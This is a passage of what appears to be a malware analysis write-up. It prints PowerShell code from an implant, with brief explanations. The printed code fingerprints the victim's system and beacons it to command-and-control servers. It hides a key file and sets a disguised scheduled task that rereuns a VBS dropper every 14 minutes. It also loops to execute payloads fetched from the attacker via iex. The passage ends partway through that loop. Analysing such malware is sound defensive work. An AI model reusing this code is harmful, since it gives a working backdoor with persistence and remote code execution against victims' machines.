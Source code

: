 ```csharp
  if($datatoc2 -match "status=register"){return "ok";}
  else{return $myurlpost;} 
};

#Force remove item again
if (Test-Path $path_tmp)
{
  if (((NEW-TIMESPAN -Start ((Get-ChildItem $path_tmp).CreationTime) -End (Get-Date)).Minutes) -gt 15)
  {
    ri -Path $path_tmp -Force;
    try{ get-process powershell* | stop-process } catch{};
    exit;
  }
  else{ exit; };
};
```

<h6>The last block of code creates a new GUID for the key of IV for the file encryption process with AES and sends the registration pulse to C2 domains. At each pulse after the registration, if the response isn't changed by the attacker, this drops and executes the same initial VBS for reinfect the victim.
</h6>

```csharp
function GenerateRegister($input)
{
  if($input)
  {
    $rawGUID = [guid]::NewGuid();
    $GUID = ([guid]::NewGuid() -replace '-','').Substring(0,16);
    $cryptokey.key = [Text.Encoding]::ASCII.GetBytes($GUID); 
    $bannerData = "status=register&ssid=$GUID&os="+([string]$PSVersionTable.BuildVersion)+"&psver="+(((Get-Host).Version).Major)+ "&comp_name=" + ((Get-WmiObject -class Win32_ComputerSystem -Property Name).Name.trim());
    $ydtfbhdh = SendRegister $bannerData;
    if($ydtfbhdh -ne "ok"){ exit; }
    sc -Path $path_db -Value ($rawGUID, $GUID -join ',') -Force;  
    gi $path_db -Force |  %{ $_.Attributes = "Hidden" };
  }
  return (get-content $path_db).split(',');
}

$cryptokey = New-Object System.Security.Cryptography.HMACSHA256;
$task = (schtasks.exe /create /TN "WindowsApplicationService" /sc DAILY /st 00:00 /f /RI 14 /du 23:59 /TR $path_vbs); 
# Execute VBS file each 14 minutes and warning alerts are disable
if (Test-Path $path_db) #Load if found
{
  $rawGUID, $GUID =  GenerateRegister $false;
  if($GUID.length -ne 16 ){ $rawGUID, $GUID =  GenerateRegister $true; }
}
else{  $rawGUID, $GUID =  GenerateRegister $true;}
$cryptokey.key = [Text.Encoding]::ASCII.GetBytes($GUID);
$myurlpost = SendRegister;
while($pay)
{
  iamwork2;
  try
  {
    if($pay -and ($pay.length -gt 30) ){ iex $pay;};
  }
  catch{ cleanup $_.Exception.Message; };
  Start-Sleep -s 280;
```